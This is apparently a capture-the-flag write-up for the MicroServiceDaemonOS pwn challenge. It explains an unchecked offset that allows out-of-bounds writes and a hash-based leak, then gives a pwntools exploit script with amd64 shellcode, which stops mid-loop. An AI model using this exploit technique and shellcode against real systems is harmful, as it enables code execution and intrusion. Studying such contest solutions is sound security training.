 

## Pwn
### MicroServiceDaemonOS

There are two command `l` for creating two different type object, `c` for executing the object function created by `l` command. 

Each object has its own execution section with 2 pages and data section with 0x7ff8 pages created by mmap, and different functionalities. And these mmap region are continuous.


In type 0 object, there is a function can calculate each page hash value and print to the screen. 

In type 1 object, there is a function can write random value to its own `init_random+user_offset`th page of data section. `user_offset` is user input value without any check that we can control, and `init_random`  is initalized at program start.

So, we can construct our exploit. 
Creating type 0 object and type 1 object respectly, using object 2 write some data onto the data section of first object.
And using functionality of object 1, leak the `init_random`.

Thus, we can write our shellcode byte by byte to the execution section of object.

Get Shell!


```python
from pwn import *

r = process(["./MicroServiceDaemonOS"])
#r = remote("microservicedaemonos.ctfcompetition.com", 1337)
r.sendlineafter(":","l")
r.sendlineafter(":","0")
r.sendlineafter(":","l")
r.sendlineafter(":","1")
r.sendlineafter(":","c")
r.sendlineafter(":","1")
r.sendlineafter(":","s")
r.sendlineafter(":",str(0x40))
r.sendlineafter(":","-"+str(0x8000000))
r.send("a"*0x40)

r.sendlineafter("command:","c")
r.sendlineafter(":","0")
r.sendlineafter(":","g")
r.sendlineafter(":","0")
r.sendlineafter(": ",str(0x7fd8))
data = r.recvn(0x7fd8*4)
data = [ data[i:i+4] for i in range(0,len(data),4)]
A,B = set(data)
if A==data[0]:
    A = B
idx = data.index(A)
context.arch = "amd64"
shellcode = asm("""
push rax
pop rsi
xor eax,eax
push rax
pop rdi
syscall
""")

for i in range(len(shellcode)):
    while True:
```